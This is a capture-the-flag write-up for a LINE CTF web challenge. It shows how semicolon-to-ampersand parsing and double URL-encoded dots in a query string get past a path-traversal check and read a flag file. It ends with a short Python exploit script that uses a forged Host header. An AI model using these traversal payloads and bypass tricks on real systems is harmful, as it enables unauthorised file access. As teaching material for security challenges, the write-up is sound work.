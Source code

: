 If suppose this is the url: http://localhost/test?paramA=valueA;paramB=valueB
(Notice that we have used `;` instead of `&`)

```python
> print("request.query_params: {}".format(request.query_params))
paramA=valueA&paramB=valueB
```

Did you just saw what happened?
`;` was replaced with `&` , due to this behaviour we can now include another parameter. which will allow us to modify the path by traversing back.
The if condition checks for `.`  in `request.query_params[clientId]`  and in `request.url.query` in (code 4)

To bypass the check we can simply double url encode `.` and this will successfully bypass the check:


http://localhost/view?2987bf4c72b6ade55901d57df14810f7=flag;/%2e%2e

```python
>print("Filename: {}".format(filename))
Filename: flag

>print("request.query_params: {}".format(request.query_params))
request.query_params: 2987bf4c72b6ade55901d57df14810f7=flag&%2F..=

>print("request.query_params.keys(): {}".format(request.query_params.keys()))
request.query_params.keys(): dict_keys(['2987bf4c72b6ade55901d57df14810f7', '/..'])

Path: ./memo/2987bf4c72b6ade55901d57df14810f7/../flag
```

The flag will be shown in the page: `LINECTF{The_old_bug_on_urllib_parse_qsl_fixed}`
![image](https://user-images.githubusercontent.com/31372554/160285940-d0135264-b642-4fea-9881-9058e77a3bc8.png)


Thanks to the people who shared their solution :)

------------

Unintended Solution:
---------------------

@bbangjo shared this freaking awesome solution in the discord chat:

![chrome_pCxk1B4C6y](https://user-images.githubusercontent.com/31372554/160285965-8677a031-e779-437a-ab91-a8511739b584.png)

![chrome_JypblwVN97](https://user-images.githubusercontent.com/31372554/160285969-0488a4dd-2682-4085-9884-16ac9cb80666.png)

Here is the code:

```python
from requests import *

#url = "http://localhost:3000"
url = "http://my-server.com"
def ex():
    p = "/view?9a80c63d7c76528586dcecbd8c1c7416=flag&/.."
    h = {
        'Host': '34.146.195.115#'
    }
    r = get(url+p, headers=h)
    print (r.text)

if __name__ == "__main__":
    ex()
```
